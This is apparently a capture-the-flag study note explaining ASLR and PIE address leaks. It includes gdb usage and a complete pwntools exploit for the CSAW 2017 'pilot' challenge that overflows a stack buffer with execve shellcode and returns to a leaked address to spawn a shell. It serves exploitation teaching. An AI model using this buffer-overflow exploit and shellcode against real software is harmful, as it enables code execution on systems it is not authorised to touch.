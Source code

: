 # PIE and ASLR

## ASLR

**Address Space Layout Randomization**  
The address of memory is randomized, but the offsets between various pieces of memory remain the same.  
To bypass ASLR we need to leak a memory address and calculate the offset to what we are targeting.  

`vmmap` can be used inside `gdb`/`pwndgb` to view memory addresses space.  
```bash
gdb vuln
b main
run
vmmap
```

An information leak isonly good for the region of memory that is leaked.
I.e. an address leaked in the `libc` region is only good for the `libc` region, it cannot be used to calculate the address space for things like the `heap` or `stack`.  

## PIE

**Position Indipendant Executable**  
PIE is very similar to ASLR but for the actual binary's code/memory regions.  
The exploit is the same as ASLR: Leak an address and calculate the offset to your target.  


---

## Challs That Give You a Leak

### Csaw 2017 pilot

This program prints out a memory address and then takes in user input.  
User input can overflow a buffer which will overwrite a return address on the stack.  

```bash
$ ./pilot      
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fff49f86a30
[*]Command:
```
When opening in GDB there are no clear function names. Using `objdump` helps to read the assembly.  
After setting breakpoints you find out that the leaked address points to the start of user input on the stack.  
 
The following exploit fills the buffer with shellcode, pads with nops to overflow the buffer and uses the leaked address  
to return to the start of the user input and execute the shellcode.  

```python3
#!/usr/bin/env python3
from pwn import *

context.log_level = "debug"

io = process("./pilot")

# Receive lines until the leaked address
io.recvuntil("[*]Location:")

# Grab the address
addr = io.recvline().strip(b'\n')

# Receive lines until the user input is required
io.recvuntil("[*]Command:")

# Set the offset to the return address
offset = 40

# Shellcode from https://www.exploit-db.com/exploits/36858
shellcode = b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

# NOPSled to fill the buffer
nops = b"\x90" * (offset - len(shellcode))

# Build the payload
payload = shellcode + nops + p64(int(addr, 16))

# Send the payload and win
io.sendline(payload)
io.interactive()
```
